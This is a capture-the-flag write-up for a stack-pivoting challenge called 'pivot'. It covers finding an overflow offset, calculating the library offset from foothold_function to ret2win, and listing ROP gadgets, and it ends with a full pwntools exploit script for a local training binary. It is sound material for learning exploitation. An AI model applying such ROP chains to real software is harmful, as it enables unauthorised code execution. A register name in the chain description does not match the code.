

*This challenge was a very good beginning for the idea of stack pivoting, and how to call functions using offsets of the libraries. Even though is very simple, concepts like calculating the offset of functions and call another one, based on that offset, were applied.*

Starting with the check for the file protections:


*File protections*

- Partial RELRO
- NX enabled

Sending a payload generated by *metasploit-pattern_create*, and calculating the offset with *metasploit-pattern_offset*, the offset found was 40.


*Buffer overflow with the found offset*


*Offset match at 40.*

For this challenge, the description explains that we need to just call the *ret2win* function. Since the default stack smashing challenges provides us a plenty of space to build our chain, this one is a bit different, providing basically none.

Looking into the program imports using **rabin2**, there ir no *ret2win* function, but we have the *foothold_function*.

```bash
rabin2 -i pivot
```

*Function foothold_function imported.*

This is because the *ret2win* function is present only inside the provided library, and is not called by the binary directly, and we have to find a way to call it in our chain.

```bash
nm libpivot.so | grep ' T '
```

*The ret2win function inside the libpivot lib*

Executing the program normally and sending a big payload, the stack already hit a non-writable place less than 30 bytes.


*This place on the stack is non-writable*

So, the challenge consists of pivoting the stack to another place that we could send our rop chain properly.

The *foothold_function* is called inside the binary, and it will be used to pivot the stack to a place with more space.

During the normal execution flow, the "gods kindly bestowed upon us" a place to pivot the stack to:


*0x7ffff7a0df10*

Checking the position address, is perceived that we have indeed a plenty of space there, serving as a adequate space for the chain to be inserted.


*No data in the address allocated*

Now we have to find a way to call the function in the imported lib, using the offset of the *foothold_function* and *ret2win* functions. Calculating the offset of the base addresses, we could discover how many bytes are needed to add to the *foothold_function* address to reach *ret2win*.


*Base addresses of the functions foothold_function and ret2win*

Calculating the value using python, the offset returned was **279** or `0x117`.


*Offset from foothold_function to ret2win*

From now, is possible to create a logic for our rop chain:
1. Pivot the stack to another place
2. Call the *foothold_function* from PLT to update the GOT address.
3. Call the *ret2win* function from the address calculated from the offset.

Gathering our gadgets to achieve the desired goals, we found the following:

```
1: 0x4009bb : pop rax; ret
2: 0x4009c0 : mov rax, [rax]
3: 0x4009bd : xchg rsp, rax ; ret
4: 0x4009c4 : add rax, rbp ; ret
5: 0x4007c1 : jmp rax
```

Since we need to send 2 chains to the program, we built them as follows:

First chain:
1. Fill the buffer until *RBP* position;
2. Set the *RBP* position on the stack smash to the *ret2win* function offset relative to *foothold_function@got*;
3. Use (1) to set *RAX* to the new stack position;
4. Use (3) to set *RAX* to *RSP* and pivot the stack.

Second chain:
1. Address of *foothold_function@plt*;
2. Use (1) to set *RAX* to the *foothold_function@got* address;
3. Use (2) to set *RAX* to the value inside the *foothold_function@got* address;
4. Use (4) to add the offset (inside *RBX*) to *RAX*;
5. Use (5) to jump to the address inside *RAX*, which is the *ret2win*function.

Coming out with the final exploit, we got the flag.

*Flag obtained*

Final exploit code:
```python
#!/usr/bin/env python

from pwn import *

foothold_function_plt = p64(0x400720)
foothold_function_got = p64(0x601040)

POP_RAX = p64(0x4009bb) # pop rax ; ret
MOV_RAX_pRAX = p64(0x4009c0) # mov rax, [rax]
XCHG_RSP_RAX = p64(0x4009bd) # xchg rsp, rax ; ret
ADD_RAX_RBP = p64(0x4009c4) # add rax,rbp
JMP_RAX = p64(0x4007c1) # jmp rax

elf = context.binary = ELF('./pivot')
io = process(elf.path)
io.recvuntil(b'pivot: ')

info('Getting the pivot place...')
PIVOT_DEST = int(io.recv(14),16)

info('Pivot new location: %#x', PIVOT_DEST)
PIVOT_DEST = p64(PIVOT_DEST)
io.recv(1024)

BUFFER_FILL = b"B"*32
RBP = p64(279)

first_chain = BUFFER_FILL 
first_chain += RBP 
first_chain += POP_RAX 
first_chain += PIVOT_DEST 
first_chain += XCHG_RSP_RAX

second_chain = foothold_function_plt 
second_chain += POP_RAX 
second_chain += foothold_function_got 
second_chain += MOV_RAX_pRAX 
second_chain += ADD_RAX_RBP 
second_chain += JMP_RAX

io.send(second_chain)
io.send(first_chain)

io.interactive()
```